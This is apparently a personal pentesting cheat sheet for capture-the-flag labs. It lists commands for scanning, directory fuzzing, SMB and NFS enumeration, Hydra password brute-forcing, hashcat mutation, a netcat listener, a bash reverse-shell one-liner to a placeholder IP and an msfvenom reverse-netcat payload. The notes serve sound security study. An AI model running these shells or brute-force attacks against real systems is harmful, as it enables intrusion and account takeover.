 
# CLI
## rdp: 
`xfreerdp /u:{username} /p:{password} /v:{ip} /dynamic-resolution`
## netcat:
`nc -lvnp <PORT>`
- `-l`: Listen mode.
    
- `-v`: Verbose output (optional but recommended).
    
- `-n`: Disable DNS resolution (faster).
    
- `-p <PORT>`: Specify the port to listen on (e.g., `4444`).

Then
`bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'`
// Research more ways to connect
## Gobuster:
- Directories
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/fuzz_php_special.txt -t 100 --timeout 60s
```
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/robots.txt
```
- Sub Domains
`gobuster dns -d ip -w /home/Dragon/Code/wordlists/subdomain.txt`


## Rustscan:
`rustscan -a ip -r 1-65535 --ulimit 20000`

Target a specific port:
`rustscan -a ip -p port -- -A -sC`

## tcpdump
- listen {This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.}
`sudo tcpdump ip proto \\icmp -i tun0`

![[Pasted image 20250202160630.png]]

## metasploit
- netcat rev shell
`msfvenom -p cmd/unix/reverse_netcat lhost=10.8.30.74 lport=4444 R`
## Hydra:
`hydra -L /home/Dragon/Code/wordlists/rockyou.txt -p admin ip`

`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt ssh://ip -V -I -t 64` 

`hydra -t 4 -l dale -P home/Dragon/Code/wordlists/rockyou.txt -vV ip ftp`

-t 4                    Number of parallel connections per target  
-l [user]               Points to the user who's account you're trying to compromise  
-P [path to dictionary] Points to the file containing the list of possible passwords  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for                             each attempt
## ffuf
`ffuf -u ip../FUZZ.fileExtension -w /home/Dragon/Code/wordlists/raft-small-words.txt`
- Note: run in full screen

- Post form
`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt lookup.thm http-post-form "/login:username=^USER^&password=^PASS^F:wrong password" -V -I -t 64`


## Hashcat
- cd in location of pswd list
`hashcat --stdout -r /home/Dragon/Code/wordlists/hashcat_rules/best64.rule password_list.txt > mutated_passwords.txt`

## Enum4linux

`enum4linux -h` : Manual

```
enum4linux -U -o 192.168.1.200
```
**TAG**            **FUNCTION**  
- U            get userlist  
- M            get machine list  
- N             get namelist dump (different from -U and-M)  
- S             get sharelist  
- P             get password policy information  
- G             get group and member list
- a             all of the above (full basic enumeration)

### SMB client 
`smbclient //[IP]/[SHARE]`

Followed by the tags:

-U [name] : to specify the user

-p [port] : to specify the port

more "filename" to cat

## NFS
- get shares
`/usr/sbin/showmount -e ip`
- mount
sudo mount -t nfs ip:share /mnt -nolock
## General:
`find / -name "*flag*" 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null`
`sudo find / -type d -name 'dirName'`

# Notes:
## ssh with RSA
Use private key
Do: chmod 600 filename
Then: 
	ssh -i  rsaprivefilename user@ip


# Pics
- telnet
![[Pasted image 20250202161214.png]]
